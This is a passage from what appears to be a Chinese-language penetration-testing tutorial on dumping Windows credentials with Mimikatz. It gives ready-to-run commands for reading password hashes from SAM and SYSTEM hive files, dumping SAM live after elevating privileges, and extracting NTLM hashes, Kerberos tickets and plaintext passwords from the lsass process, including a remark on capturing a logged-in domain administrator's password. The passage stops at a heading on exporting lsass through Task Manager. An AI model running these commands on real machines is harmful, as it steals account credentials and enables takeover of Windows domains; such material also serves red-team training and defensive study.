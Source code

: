 ![image-20230202174217687](https://img.gyxnb.top/img/image-20230202174217687.png)

### 读取sam和system文件获取密码

```
lsadump::sam /sam:sam.hive /system:system.hive
```

![d](https://img.gyxnb.top/img/image-20230202174254715.png)

# Mimikatz在线读取sam和lsass获取密码

## 在线读取sam文件

使用mimikatz在线读取sam文件

```
分开的命令如下
privilege::debug
token:elevate
lsadump::sam
连起来
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
```

![image-20230202174340707](https://img.gyxnb.top/img/image-20230202174340707.png)

## 在线读取lsass进程

从lsass进程中提取passwords、keys、pin、tickets等信息

```
privilege::debug
sekurlsa::msv 获取HASH (LM,NTLM)
sekurlsa::wdigest 通过可逆的方式去内存中读取明文密码
sekurlsa::Kerberos 假如域管理员正好在登陆了我们的电脑，我们可以通过这个命令来获取域管理员的明文密码
sekurlsa::tspkg 通过tspkg读取明文密码
sekurlsa::livessp 通过livessp 读取明文密码
sekurlsa::ssp 通过ssp 读取明文密码
sekurlsa::logonPasswords 通过以上各种方法读取明文密码
```

![image-20230202174421922](https://img.gyxnb.top/img/image-20230202174421922.png)

# Mimikatz离线读取lsass进程抓取密码

## 导出lsass文件方式

### 1、使用任务管理器导出（windows NT 6）

